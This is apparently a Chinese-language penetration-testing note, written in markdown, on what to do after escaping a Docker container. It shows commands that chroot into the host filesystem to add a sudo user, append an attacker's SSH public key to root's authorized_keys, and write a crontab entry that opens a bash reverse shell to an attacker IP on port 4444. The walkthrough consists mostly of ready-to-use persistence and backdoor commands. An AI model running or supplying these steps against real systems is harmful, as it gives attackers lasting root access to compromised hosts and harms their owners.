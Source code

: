# 逃逸成功之后操作---docker

逃逸成功，后续操作

```shell
1、添加用户
2、写入ssh key
3、计划任务
```
 

## 1、添加用户
```shell
chroot /test1 adduser john
```
逃逸得目录 添加用户 用户名

 将用户 john 添加到 sudo 组
```shell
chroot /test1 /usr/sbin/usermod -aG sudo john
```
 
![image-20231202152434323](./assets/image-20231202152434323.png)

![image-20231202152437567](./assets/image-20231202152437567.png)
```shell
登录：ssh john@your_server_ip
sudo -s
```
![image-20231202152441825](./assets/image-20231202152441825.png)

 

 

## 2、写入ssh key密钥登录
```shell
cd /test1/root/.ssh 到root ssh目录
本机执行：ssh-keygen -t ed25519 -N "123456"
N是密码
```
![image-20231202152445751](./assets/image-20231202152445751.png)

在目标机器插件authorized_keys文件
```shell
cat id_ed25519.pub
```
![image-20231202152450127](./assets/image-20231202152450127.png)

目标机器执行下面：
```shell
cat \>\> authorized_keys \<\< EOF
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIQVnh0Y2GhCxrEE7BSPPsN0oI13luK+r0yFZBidahtJ root@master-1
EOF
```
![image-20231202152453611](./assets/image-20231202152453611.png)
```shell
ssh -i id_ed25519 root@192.168.86.218
```
![image-20231202152457511](./assets/image-20231202152457511.png)

 

## 3、计划任务反弹shell【根据对方系统不同，反弹shell命令不同】
```shell
echo -e "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.139/4444 0\>&1\\n" \>\> /test1/etc/crontab
```
![image-20231202152501328](./assets/image-20231202152501328.png)

 
